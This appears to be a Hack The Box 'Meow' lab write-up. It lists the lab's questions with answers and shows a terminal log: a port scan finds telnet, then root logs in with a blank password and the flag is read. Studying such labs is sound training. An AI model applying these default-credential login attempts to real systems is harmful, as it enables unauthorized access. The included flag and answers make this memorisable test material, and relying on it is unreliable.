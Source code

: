 Download vpn from lab

What does the acronym VM stand for? 
*Virtual Machine *

What tool do we use to interact with the operating system in order to issue commands via the command line, such as the one to start our VPN connection? It's also known as a console or shell. 
*terminal*

What service do we use to form our VPN connection into HTB labs? 
*openvpn*

Let the configuration script run until you see the Initialization Sequence Completed message at the
very end of the output. Once that is present, make sure that there is no mention of multiple tunnel
interfaces, such as tun1 , tun2 , and so forth. Having multiple tunnel interfaces can ruin the stability of your
connection to the target and create routing conflicts on your Operating System, which would only bring
frustration. There should only be tun0 

https://app.hackthebox.com/e680eab9-86c5-4ae6-b7e4-5d3a0ae8b785

What is the abbreviated name for a 'tunnel interface' in the output of your VPN boot-up sequence output? 
*tun*

What tool do we use to test our connection to the target with an ICMP echo request? 
It's also half of the name of a very popular sport, also known as table tennis.
*ping*

What is the name of the most common tool for finding open ports on a target? 
*nmap*

What service do we identify on port 23/tcp during our scans? 
This service runs on port 23/tcp by default, meaning we can research the port on Google and receive the correct result easily.
*telnet*

```
┌──(kali㉿kali)-[~]
└─$ ping 10.129.207.239
PING 10.129.207.239 (10.129.207.239) 56(84) bytes of data.
64 bytes from 10.129.207.239: icmp_seq=1 ttl=63 time=202 ms
64 bytes from 10.129.207.239: icmp_seq=2 ttl=63 time=191 ms
^C
--- 10.129.207.239 ping statistics ---
3 packets transmitted, 2 received, 33.3333% packet loss, time 2007ms
rtt min/avg/max/mdev = 190.969/196.616/202.264/5.647 ms
                                                                                                                  
┌──(kali㉿kali)-[~]
└─$ rustscan -a 10.129.207.239 --ulimit 5500 -b 65535 -- -A
.----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
| {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
| .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
`-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
The Modern Day Port Scanner.
________________________________________
: https://discord.gg/GFrQsGy           :
: https://github.com/RustScan/RustScan :
 --------------------------------------
🌍HACK THE PLANET🌍

[~] The config file is expected to be at "/home/kali/.rustscan.toml"
[~] Automatically increasing ulimit value to 5500.
[!] File limit is lower than default batch size. Consider upping with --ulimit. May cause harm to sensitive servers
Open 10.129.207.239:23
[~] Starting Script(s)
[>] Script to be run Some("nmap -vvv -p {{port}} {{ip}}")

[~] Starting Nmap 7.93 ( https://nmap.org ) at 2022-11-01 00:00 EDT
NSE: Loaded 155 scripts for scanning.
NSE: Script Pre-scanning.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 00:00
Completed NSE at 00:00, 0.00s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 00:00
Completed NSE at 00:00, 0.00s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 00:00
Completed NSE at 00:00, 0.00s elapsed
Initiating Ping Scan at 00:00
Scanning 10.129.207.239 [2 ports]
Completed Ping Scan at 00:00, 0.19s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 00:00
Completed Parallel DNS resolution of 1 host. at 00:00, 0.01s elapsed
DNS resolution of 1 IPs took 0.01s. Mode: Async [#: 1, OK: 0, NX: 1, DR: 0, SF: 0, TR: 1, CN: 0]
Initiating Connect Scan at 00:00
Scanning 10.129.207.239 [1 port]
Discovered open port 23/tcp on 10.129.207.239
Completed Connect Scan at 00:00, 0.19s elapsed (1 total ports)
Initiating Service scan at 00:00
Scanning 1 service on 10.129.207.239
Completed Service scan at 00:00, 10.37s elapsed (1 service on 1 host)
NSE: Script scanning 10.129.207.239.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 00:00
Completed NSE at 00:00, 10.43s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 00:00
Completed NSE at 00:00, 0.00s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 00:00
Completed NSE at 00:00, 0.00s elapsed
Nmap scan report for 10.129.207.239
Host is up, received conn-refused (0.19s latency).
Scanned at 2022-11-01 00:00:37 EDT for 22s

PORT   STATE SERVICE REASON  VERSION
23/tcp open  telnet  syn-ack Linux telnetd
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

NSE: Script Post-scanning.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 00:00
Completed NSE at 00:00, 0.00s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 00:00
Completed NSE at 00:00, 0.00s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 00:00
Completed NSE at 00:00, 0.00s elapsed
Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 22.18 seconds

after trying some typical admin accounts (admin, administrator, root)

┌──(kali㉿kali)-[~]
└─$ telnet 10.129.207.239                        
Trying 10.129.207.239...
Connected to 10.129.207.239.
Escape character is '^]'.


  █  █         ▐▌     ▄█▄ █          ▄▄▄▄
  █▄▄█ ▀▀█ █▀▀ ▐▌▄▀    █  █▀█ █▀█    █▌▄█ ▄▀▀▄ ▀▄▀
  █  █ █▄█ █▄▄ ▐█▀▄    █  █ █ █▄▄    █▌▄█ ▀▄▄▀ █▀█


Meow login: 
Password: 


Login incorrect
Meow login: administrator
Password: 


Login incorrect
Meow login: admin
Password: 
Login timed out after 60 seconds.
Connection closed by foreign host.
                                                                                                                  
┌──(kali㉿kali)-[~]
└─$ telnet 10.129.207.239
Trying 10.129.207.239...
Connected to 10.129.207.239.
Escape character is '^]'.


  █  █         ▐▌     ▄█▄ █          ▄▄▄▄
  █▄▄█ ▀▀█ █▀▀ ▐▌▄▀    █  █▀█ █▀█    █▌▄█ ▄▀▀▄ ▀▄▀
  █  █ █▄█ █▄▄ ▐█▀▄    █  █ █ █▄▄    █▌▄█ ▀▄▄▀ █▀█


Meow login: 
Password: 


Login incorrect
Meow login: root
Welcome to Ubuntu 20.04.2 LTS (GNU/Linux 5.4.0-77-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Tue 01 Nov 2022 04:03:10 AM UTC

  System load:           0.0
  Usage of /:            41.7% of 7.75GB
  Memory usage:          4%
  Swap usage:            0%
  Processes:             138
  Users logged in:       0
  IPv4 address for eth0: 10.129.207.239
  IPv6 address for eth0: dead:beef::250:56ff:fe96:3e07

 * Super-optimized for small spaces - read how we shrank the memory
   footprint of MicroK8s to make it the smallest full K8s around.

   https://ubuntu.com/blog/microk8s-memory-optimisation

75 updates can be applied immediately.
31 of these updates are standard security updates.
To see these additional updates run: apt list --upgradable


The list of available updates is more than a week old.
To check for new updates run: sudo apt update

Last login: Mon Sep  6 15:15:23 UTC 2021 from 10.10.14.18 on pts/0
root@Meow:~# ls
flag.txt  snap
root@Meow:~# cat flag.txt
b40abdfe23665f766f9c61ecba8a4c19

pwnd
```

What username is able to log into the target over telnet with a blank password? 
*root*

Submit root flag 
*b40abdfe23665f766f9c61ecba8a4c19*


[[Follina MSDT]]